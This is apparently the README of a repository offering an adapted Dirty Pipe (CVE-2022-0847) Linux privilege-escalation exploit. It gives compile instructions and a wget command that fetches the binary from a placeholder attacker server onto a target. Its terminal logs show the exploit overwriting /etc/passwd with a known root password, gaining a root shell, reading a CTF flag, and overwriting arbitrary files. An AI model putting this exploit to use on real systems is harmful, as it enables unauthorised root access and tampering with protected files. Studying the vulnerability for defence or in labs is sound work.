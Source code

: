 # Dirty Pipe Exploit: CVE-2022-0847
The Dirty Pipe vulnerability, also known as CVE-2022-0847, is a significant flaw within the Linux kernel. This repository provides an adapted version of the widely used exploit code to make it more user-friendly and modular.

A very good explanation of this vulnerability can be found on the [HackTheBox blog](https://www.hackthebox.com/blog/Dirty-Pipe-Explained-CVE-2022-0847). Max Kellermann's original, more detailed explanation can be found [on his blog](https://dirtypipe.cm4all.com/).

This adapted version is segmented into different methods to increase modularity and ease of modification. Notably, there's an added --root option that modifies the /etc/passwd file, to leverage root access with password `el3ph@nt!`.

Compile the exploit statically:
```shell
gcc -o dpipe dpipe.c -static
```

And retrieve-it from your target before launching-it:
```shell
yoan@teecup:~$ wget http://YOUR_SERVER_ADDRESS/unix/cve/dpipe
--2023-10-15 20:07:44--  http://YOUR_SERVER_ADDRESS/unix/cve/dpipe
Connecting to YOUR_SERVER_ADDRESS:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 769792 (752K) [text/plain]
Saving to: ‘dpipe’

dpipe                                   100%[=============================================================================>] 751.75K  --.-KB/s    in 0.09s

2023-10-15 20:07:44 (8.09 MB/s) - ‘dpipe’ saved [769792/769792]

yoan@teecup:~$ chmod +x dpipe
yoan@teecup:~$ ./dpipe --root
[Dirty Pipe] Attempting to backup '/etc/passwd' to '/tmp/passwd.bak'
[Dirty Pipe] Successfully backed up '/etc/passwd' to '/tmp/passwd.bak'
[Dirty Pipe] Initiating write to '/etc/passwd'...
[Dirty Pipe] Data size to write: 131 bytes
[Dirty Pipe] File '/etc/passwd' opened successfully for reading.
[Dirty Pipe] Pipe size determined: 65536 bytes
[Dirty Pipe] Filling the pipe...
[Dirty Pipe] Pipe filled successfully.
[Dirty Pipe] Draining the pipe...
[Dirty Pipe] Pipe drained successfully.
[Dirty Pipe] Data successfully written to '/etc/passwd'.
[Dirty Pipe] You can connect as root with password 'el3ph@nt!'
[Dirty Pipe] Program execution completed successfully.
yoan@teecup:~$
yoan@teecup:~$ cat /etc/passwd
root:$6$9WETWbCBTQ8pxg4I$odZAx8iIlayCnFdUwDM5dHVfsXXZo1RHRp2a4uQzcPDkRiTJYLA4loZESihn4ASGhWKN9.RWPT.CZJdyfTej4/:0:0:root:/root:/bin/sh
:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
yoan:x:1000:1000::/home/yoan:/bin/bash
yoan@teecup:~$ su root
Password:
# cd /root
# cat flag.txt
Great job! You found me.
```

You can also use the exploit to overwrite content in other files:
```shell
yoan@teecup:~$ echo "Vxxx" > dirty
yoan@teecup:~$ cat dirty
Vxxx
yoan@teecup:~$ ./dpipe dirty 1 uln
[Dirty Pipe] Standard file overwrite mode detected...
[Dirty Pipe] Attempting to backup 'dirty' to '/tmp/dirty.bak'
[Dirty Pipe] Successfully backed up 'dirty' to '/tmp/dirty.bak'
[Dirty Pipe] Initiating write to 'dirty'...
[Dirty Pipe] Data size to write: 3 bytes
[Dirty Pipe] File 'dirty' opened successfully for reading.
[Dirty Pipe] Pipe size determined: 65536 bytes
[Dirty Pipe] Filling the pipe...
[Dirty Pipe] Pipe filled successfully.
[Dirty Pipe] Draining the pipe...
[Dirty Pipe] Pipe drained successfully.
[Dirty Pipe] Data successfully written to 'dirty'.
[Dirty Pipe] Program execution completed successfully.
yoan@teecup:~$ cat dirty
Vuln
```
